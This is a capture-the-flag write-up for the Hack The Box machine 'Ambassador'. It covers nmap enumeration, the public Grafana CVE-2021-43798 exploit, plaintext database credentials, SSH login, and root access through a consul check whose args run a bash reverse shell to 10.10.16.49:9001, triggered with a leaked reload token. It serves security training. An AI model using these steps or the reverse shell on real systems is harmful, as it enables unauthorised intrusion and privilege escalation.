


# Ambassador (HTB Machine)

## Difficulty: Medium

## Enumeration

### NMAP

```
# Nmap 7.93 scan initiated Sat Jan 28 15:11:58 2023 as: nmap -A -oN nmap/ambassador -vv 10.10.11.183
Nmap scan report for 10.10.11.183
Host is up, received syn-ack (0.72s latency).
Scanned at 2023-01-28 15:11:58 IST for 212s
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 29dd8ed7171e8e3090873cc651007c75 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDLYy5+VCwR+2NKWpIRhSVGI1nJQ5YeihevJqIYbfopEW03vZ9SgacRzs4coGfDbcYa+KPePbz2n+2zXytEPfzBzFysLXgTaUlDFcDqEsWP9pJ5UYFNfXqHCOyDRklsetFOBcxkgC8/IcHDJdJQTEr51KLF75ZXaEIcjZ+XuQWsOrU5DJPrAlCmG12OMjsnP4OfI4RpIjELuLCyVSItoin255/99SSM3koBheX0im9/V8IOpEye9Fc2LigyGA+97wwNSZG2G/duS6lE8pYz1unL+Vg2ogGDN85TkkrS3XdfDLI87AyFBGYniG8+SMtLQOd6tCZeymGK2BQe1k9oWoB7/J6NJ0dylAPAVZ1sDAU7KCUPNAex8q6bh0KrO/5zVbpwMB+qEq6SY6crjtfpYnd7+2DLwiYgcSiQxZMnY3ZkJiIf6s5FkJYmcf/oX1xm/TlP9qoxRKYqLtEJvAHEk/mK+na1Esc8yuPItSRaQzpCgyIwiZCdQlTwWBCVFJZqrXc=
|   256 80a4c52e9ab1ecda276439a408973bef (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFgGRouCNEVCXufz6UDFKYkcd3Lmm6WoGKl840u6TuJ8+SKv77LDiJzsXlqcjdeHXA5O87Us7Npwydhw9NYXXYs=
|   256 f590ba7ded55cb7007f2bbc891931bf6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINujB7zPDP2GyNBT4Dt4hGiheNd9HOUMN/5Spa21Kg0W
80/tcp   open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: Hugo 0.94.2
|_http-title: Ambassador Development Server
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
3000/tcp open  ppp?    syn-ack
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity.txt%252ebak; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Sat, 28 Jan 2023 09:44:00 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Sat, 28 Jan 2023 09:43:13 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   HTTPOptions:
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Sat, 28 Jan 2023 09:43:22 GMT
|_    Content-Length: 0
3306/tcp open  mysql   syn-ack MySQL 8.0.30-0ubuntu0.20.04.2
| mysql-info:
|   Protocol: 10
|   Version: 8.0.30-0ubuntu0.20.04.2
|   Thread ID: 148
|   Capabilities flags: 65535
|   Some Capabilities: FoundRows, Support41Auth, InteractiveClient, ConnectWithDatabase, ODBCClient, IgnoreSigpipes, SwitchToSSLAfterHandshake, LongColumnFlag, IgnoreSpaceBeforeParenthesis, Speaks41ProtocolNew, LongPassword, SupportsCompression, DontAllowDatabaseTableColumn, SupportsTransactions, Speaks41ProtocolOld, SupportsLoadDataLocal, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: oE-F&8iEOXUu\x11pLOV6!Z
|_  Auth Plugin Name: caching_sha2_password
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.93%I=7%D=1/28%Time=63D4EE20%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,174,"HTTP/1\.0\x20302\x20Found\r\nCache-Contro
SF:l:\x20no-cache\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nExpir
SF:es:\x20-1\r\nLocation:\x20/login\r\nPragma:\x20no-cache\r\nSet-Cookie:\
SF:x20redirect_to=%2F;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nX-Conten
SF:t-Type-Options:\x20nosniff\r\nX-Frame-Options:\x20deny\r\nX-Xss-Protect
SF:ion:\x201;\x20mode=block\r\nDate:\x20Sat,\x2028\x20Jan\x202023\x2009:43
SF::13\x20GMT\r\nContent-Length:\x2029\r\n\r\n<a\x20href=\"/login\">Found<
SF:/a>\.\n\n")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Ty
SF:pe:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\
SF:x20Bad\x20Request")%r(HTTPOptions,12E,"HTTP/1\.0\x20302\x20Found\r\nCac
SF:he-Control:\x20no-cache\r\nExpires:\x20-1\r\nLocation:\x20/login\r\nPra
SF:gma:\x20no-cache\r\nSet-Cookie:\x20redirect_to=%2F;\x20Path=/;\x20HttpO
SF:nly;\x20SameSite=Lax\r\nX-Content-Type-Options:\x20nosniff\r\nX-Frame-O
SF:ptions:\x20deny\r\nX-Xss-Protection:\x201;\x20mode=block\r\nDate:\x20Sa
SF:t,\x2028\x20Jan\x202023\x2009:43:22\x20GMT\r\nContent-Length:\x200\r\n\
SF:r\n")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-T
SF:ype:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400
SF:\x20Bad\x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Req
SF:uest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x2
SF:0close\r\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1
SF:\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset
SF:=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSess
SF:ionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/
SF:plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Re
SF:quest")%r(Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Ty
SF:pe:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\
SF:x20Bad\x20Request")%r(FourOhFourRequest,1A1,"HTTP/1\.0\x20302\x20Found\
SF:r\nCache-Control:\x20no-cache\r\nContent-Type:\x20text/html;\x20charset
SF:=utf-8\r\nExpires:\x20-1\r\nLocation:\x20/login\r\nPragma:\x20no-cache\
SF:r\nSet-Cookie:\x20redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity\.txt
SF:%252ebak;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nX-Content-Type-Opt
SF:ions:\x20nosniff\r\nX-Frame-Options:\x20deny\r\nX-Xss-Protection:\x201;
SF:\x20mode=block\r\nDate:\x20Sat,\x2028\x20Jan\x202023\x2009:44:00\x20GMT
SF:\r\nContent-Length:\x2029\r\n\r\n<a\x20href=\"/login\">Found</a>\.\n\n"
SF:);
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 28 15:15:30 2023 -- 1 IP address (1 host up) scanned in 212.55 seconds
```


### Web Enumeration


- A website is running on port **80**.



- We found a login page on port **3000**
- From the footer of the page we found that the web application is **Grafana of Version 8.2.0**
- Searching online we found a public exploit for **Grafana v8.2.0**

👉[**CVE-2021-43798**](https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798)👈

### Exploitation


- From the public exploit we fetched some DB file and configs.

**looking at the config files and database**:

**Database**:


- In the table **data_source** we found the user **Grafana** and it's password: **dontStandSoCloseToMe63221!** let's try logging 

**Connecting to remote database:**

```
mysql -h 10.10.11.183 -u 'grafana' -p'dontStandSoCloseToMe63221!' -P 3306
```


**Inspecting the Database**

- First we list out all of the databases,
- then looked for the database where we can find something useful, like username and passwords.



- We've inspected the Databases called: **whackywidget** and there in a table named **users** we found the login credentials for the user **developer**.

- The password is encoded in **base64** so we'll have to decode it first!
	- save the password hash in a text file, then:


### Initial Foothold

- Connecting to the target through **SSH**

```
ssh developer@10.10.11.183
```

- then enter the decoded password


**Target Enumeration**

- Listing the content of the user **developer** home directory we found a **.gitconfig** file, where we have found a location: **/opt/my-app**


- Checking the contents in **/opt/my-app** we found a script: **put-config-in-consul.sh**, and by concatenating the script we found that a service **consul** might be running on the system.


**Enumerating Consul**:

- By googling we found that : *Consul uses service identities and traditional networking practices to help organizations securely connect applications running in any environment.*
👉[**for more information**](https://www.consul.io/)👈

- Also from our **linpeas.sh** enumeration, we found that we have a **write permission** in the directory **/etc/consul.d/config.d**.


- So now that we know we have a write access to **consul configuration** directory, we can create a sample script to run our reverse shell command. And then we'll reload the consul service.

**Writing a script**:

- from the **consul.hcl** file at the very bottom we found that the **hcl** formatted data is manipulated here, so we can try to create a sample script using this as our reference:


- Our Script:

```
check = {
	id: "SampleID"
	args: ["bash", "-c", "bash -i >& /dev/tcp/10.10.16.49/9001 0>&1"]
	interval: 5s
}
```

- and save it **samplescript.hcl** in the consul configuration directory.

```
vi /etc/consul.d/config.d/samplescript.hcl
```

- Reloading consul:


- It's asking for some Token!

- Checking in the /opt/my-app directory we found the token in the last git commit!


- Setup a listener on your computer and then try it again with the token :

```
consul reload --token bb03b43b-1d81-d62b-24b5-39540ee469b5
```


**DONE**

